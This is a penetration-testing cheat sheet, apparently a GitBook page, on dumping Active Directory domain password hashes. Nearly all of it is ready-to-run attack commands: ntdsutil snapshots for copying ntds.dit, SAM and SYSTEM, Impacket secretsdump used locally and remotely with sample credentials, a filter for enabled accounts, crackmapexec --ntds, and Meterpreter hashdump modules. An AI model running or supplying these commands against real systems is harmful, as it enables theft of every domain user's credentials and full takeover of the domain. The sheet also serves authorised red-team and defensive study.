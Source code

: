 # Dumping domain hashes

## NTDSutil

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
-- or --

ntdsutil
> snapshot
> activate instance ntds
> create
> mount {GUID}
```

Then browse to the mounted directory in the C:/ and copy out the ntds.dit && SAM & SYSTEM file to your prefered location

To delete the snapshot after:

```
delete {GUID}
```

Then pull the hashes out with Impacket's Secretdump

```
impacket-secretsdump -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile myhashes local
```

The tidy up the hashes

```
cat myhashes.ntds | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1
```

Or you can do it with a 1 liner remotely. but becareful it doesnt crash the connection

{% code overflow="wrap" %}
```
impacket-secretsdump -just-dc -user-status -exec-method smbexec 'domaincorp/user123:Password1@10.144.2.11' -outputfile myhashes
```
{% endcode %}

## crackmapexec

```
crackmapexec smb <DC-IP> -u <user> -p <password> --ntds
```

## Meterpreter

Once you have your Meterpreter shell from your exploit of choice, such as PSEXEC

```
run post/windows/gather/smart_hashdump
--- or ---
run post/windows/gather/credentials/domain_hashdump
```
